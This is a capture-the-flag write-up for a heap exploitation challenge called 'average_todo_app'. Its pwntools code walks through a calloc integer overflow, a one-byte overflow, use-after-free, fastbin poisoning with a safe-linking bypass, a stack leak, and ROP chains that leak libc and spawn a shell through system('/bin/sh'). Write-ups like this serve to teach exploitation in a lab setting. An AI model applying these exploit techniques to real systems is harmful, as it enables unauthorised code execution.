 # average_todo_app
## writeup
Yeah, there is no complete average ctf with no pwn todo app or pwn note taking, whoami to not abide by the rules?  
The exploit might seem a bit messy, but ill make sure to make it clean later.  

### todo app rules
Its nothing but a simple todo app creating, deleting, printing, finishing and editing a todo.  
A quick remark you might see at first glance is the extensive use of calloc. There is no exploitation of tcache, but we might tamper with fastbins.  

### exploit
So no tcache exploitation ? lets fill'em up  
```py
    log.info("filling tcache up")
    for i in range(7):
        allocate(b"a\n", 56)
    for i in range(7):
        delete(i)
```
Now that we have that out of the way, we need to find a leak, but that might be impossible because Calloc erases the content of the chunk before serving it.  
Not always, if the chunk was mmaped why would calloc waste the precious cycles of cpu to fill an already clean memory with 0s.  
```c
// https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3698
  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }
```

So we need one byte overflow to write to write into a perfectly aligned chunk, well ctodo does the job for us.  
```c
	printf("Battle name >> ");
	if ((size_t)(bsize + 2) > 1000){
		puts("integer overflow detected, exploit rejected");
		exit(EXIT_FAILURE);
	}
	read(0, todos[todo_count]->todo, bsize + 2);    // HERE
	todos[todo_count]->todo_size = bsize;
	todo_count++;
	printf("Battle added, todo index is %d\n", todo_count - 1);
}
```
But what are we leaking?? a heap address? we need no heap address we need a stack address or a stack address?  
Let's focus on a stack address, that's doable for now. all thanks to the emerg_buffer.  
The program keeps a temproray buffer so it can use it when calloc fails  

```c
	todos[todo_count]->todo = calloc(bsize, 1);
	if (todos[todo_count]->todo == NULL){
		todos[todo_count]->todo = tmp;
		todos[todo_count]->tmp = true;
	}
```

but thanks to gnu devs calloc never fails. or does it? [*Vsauce music*](https://www.youtube.com/watch?v=1dwu4iVA1yo)  

Yeah it does, you cant allocate 18446744073709551615 bytes. but that's what we're planning to do.  
`readint` reads a string and converts it using atoi to a signed integer, but calloc only accepts size_t as parameters, so inputting a -1 as a size would overflow to 184467... which calloc can't handle.  
```c
int readint(){
	char buffer[10];
	bzero(buffer, 10);
	if (read(0, buffer, 3) > 1){
		return (atoi(buffer));
	}
	return (0);
}
```

Enough theory and back to the exploit, now we can do 2 things :  
1. use the temprorary buffer and store its address in a chunk by using integer overflow  
2. bypass calloc memory protection  

```py
    a = allocate(b"a\n", 56)
    b = allocate(b"\x41", -1)       # using b as the tmp buffer to leak it
    log.info("freeing a")
    blocker = allocate(b"\x00", 16)       # merging the leak chunk
    delete(a)
    new_a = allocate(b"\x00" * 56 + b'\x41', 56)
    delete(b)
    edit(a, b"\x00" * 56 + b'\x43')
    liks = allocate(b"A" * 8, 56)      # getting the leak 11
    stack_leak = unpack_ptr(printt(11).replace(b"A" * 8, b""))
    edit(a, b"\x00" * 56 + b'\x41')
    log.info(f"stack leak {hex(stack_leak)}")
```

a is the first chunk, b is the second which contains the stack address, and block is just an allocated chunk to not mess with the top chunk.  
we delete `a` then edit its content, then free `b`  
now this is the fastbin  
[56] : a -> b   
we reallocate `a` again and edit its content to set linear chunk `b` that contains the stack address as mmaped.  
Now we can reallocate `b` to get the stack leak.  
Alright now if we wanna write in the stack we need to [bypass safe linking](https://ir0nstone.gitbook.io/notes/types/heap/safe-linking) and inject a chunk in the fastbin.  

```c
    hliks = allocate(b"A" * 8, 56)      # getting the leak 11
    delete(hliks)
    heap_base = unpack_ptr(printt(hliks)) << 12
    log.info(f"heap base {hex(heap_base)}")
```

we can use that just by a use after free on the print function.  
Well we got a heap leak to bypass safe linking and we have stack leak to write in the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table).  

As easy as it sounds, a use after free is all we need, and that whats `edit` is for.  
```py
    fake_fastbin_alloc = allocate(b"fastbin", 56)
    fake_fastbin_addr = heap_base + 0x630
    log.info(f"fake_fastbin_addr {hex(fake_fastbin_addr)}")
    delete(fake_fastbin_alloc)
    edit(fake_fastbin_alloc,  p64( ((fake_fastbin_addr + 16) >> 12 ) ^ (stack_leak - 8))[0:7] )
```

We start by allocating a fake fastbin the deleting it and editing the stack leak into it while bypassing all safe linking.  
Well all is left is to inject the rop and leak a libc address.  

```py
    fastbin = allocate(b"fb", 56)
    pop_rdi = 0x00000000004018c5
    pay = flat(
            cyclic(24),
            pop_rdi,
            elf.got.puts,
            elf.plt.puts,
            elf.sym.main
            )
    stack_chunk = allocate(pay, 56)
    log.info("triggering the rop")
    pp.recvuntil(b">> ")
    pp.sendline(b"69")
```
We allocate the parent chunk fake_fastbin_alloc then allocate the fake chunk and inject the rop there and exit to get the libc leak.  
```py
    a = allocate(b"heapdzeb\n", 64)
    b = allocate(b"\x51", -1)       # next chunk will be here
    delete(a)
    a_addr = heap_base + 2464
    edit(a, p64( ((a_addr + 16) >> 12 ) ^ (stack_leak + 8))[0:7] )
    waste = allocate(b"heapdzeb\n", 64)
    payload = flat(
            cyclic(24),
            pop_rdi,
            next(libc.search(b"/bin/sh\x00")) + libc_base,
            pop_rdi+1,
            libc.sym.system + libc_base,
            )
    stack_chunk = allocate(payload, 64)
    log.info("triggering shellcode")
    pp.recvuntil(b">>")
    pp.sendline(b"69")
```

Rinse and repeat to get a shell.  

